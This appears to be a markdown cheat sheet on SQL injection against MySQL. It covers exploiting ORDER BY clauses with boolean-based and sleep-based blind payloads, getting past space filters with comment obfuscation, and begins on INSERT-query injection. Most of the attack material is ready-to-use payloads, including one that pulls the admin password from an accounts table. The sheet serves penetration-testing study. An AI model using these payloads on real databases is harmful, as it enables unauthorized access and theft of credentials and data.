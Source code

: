 ## Exploiting `ORDER BY` clause

`ORDER BY` clause is basically used to sort the data. In this scenario, user input goes after `ORDER BY` clause .

**Backend Query:**

* mysql> select id from news where id =1 order by `1` `desc`

So input could be a

* column name => VARCHAR
* column number => NUMBER
* some time user input can only control => `desc`

### Detection

We need to apply `blind-boolean-condition` injection technique.

```
query = SELECT column1, column2 FROM table_name ORDER BY column1, column2 DESC;

if user can control only DESC / ASE parameter ?
if user can control column2
[+] TRUE condition
payload = 1, (select case when (1=1) then 1 else 1*(select table_name from information_schema.tables)end)=1;#
Result => No Error. Display the same result.

[+] FALSE condition
payload  = 1, (select case when (1=2) then 1 else 1*(select table_name from information_schema.tables)end)=1;#
Result => ERROR 1242 (21000): Subquery returns more than 1 row

[+] check if sqlmap works to extract data

if user can control column1 then craft payload to comment out column2 and DESC

using delay
input : id',(select sleep(10) from dual where database() like database())#
```

## Filter Bypass and Payload Obsfuscation

if `space` is filtered then use `/**/` or `brackets` or `tabs`.

```
job_code = 'union/**/select/**/password/**/FROM/**/accounts/**/WHERE/**/username/**/=/**/'admin'#
```

### Exploiting INSERT Query

The `output` of the `INSERT` query is not `directly` relevant to us because it only returns the number of `affected` rows.
